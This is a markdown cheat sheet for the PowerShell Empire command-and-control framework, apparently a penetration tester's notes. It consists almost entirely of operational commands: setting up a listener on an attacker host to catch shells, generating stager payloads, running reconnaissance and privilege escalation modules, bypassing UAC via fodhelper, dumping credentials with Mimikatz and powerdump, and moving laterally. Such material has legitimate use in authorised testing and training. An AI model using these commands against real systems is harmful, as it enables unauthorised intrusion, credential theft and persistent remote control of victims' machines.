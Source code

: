 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)
* [https://github.com/BC-SECURITY/Empire/blob/master/.gitmodules](https://github.com/BC-SECURITY/Empire/blob/master/.gitmodules) (module list)

## Cheat Sheet

```bash
# install it
sudo apt install powershell-empire

# to run it, you need both the server and client
sudo powershell-empire server
sudo powershell-empire client

# list and use listeners
# you need a listener to catch a shell
# do not forget to set Host, and other custom settings
listeners # this moves the menu to the listeners sub-category
uselistener "listenername" # sets the menu into an even further sub-category
info
set Host 192.168.1.5
execute # runs listener
back # goes to listeners category so you can run a stager (aka payload)

# use a stager once a listener is set
# list and use the stager
usestager # lists stager
usestager path_to/stager
info # shows info about stager
set Listener "listenername" # set as the name of listener that is setup
execute # generates the payload aka agent that stager leaves behind

# to view what shells you have open
agents
interact "agentname"

# use modules for more leverage
# best modules
# Powersploit
usemodule situational_awareness/network/powerview/get_user
# Powerup
usemodule powershell/privesc/powerup/allchecks
# Powerdump
usemodule credentials/powerdump
# fodhelper, if local admin launch high-integrity shell and run Mimikatz
usemodule privesc/bypassuac_fodhelper
# Mimikatz, then run sekurlsa::logonpasswords  
usemodule credentials/mimikatz/logonpasswords 
usemodule lateral_movement/ # lateral movement methods
# other modules
usemodule # shows a module list
usemodule "path_to/module"
# show module info and execute a module
info
execute

# when in doubt
help # useful command
```

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute

# if this works, then you now have a high-integrity Powershell Empire agent which
# is needed in order to run Mimikatz and other high-integrity modules
usemodule credentials/mimikatz/logonpasswords
execute
sekurlsa::logonpasswords

# view the creds that were just dumped
creds

# add your own creds to creds
creds add example.com exampleusername ex4mpl3p4ssw0rd
```
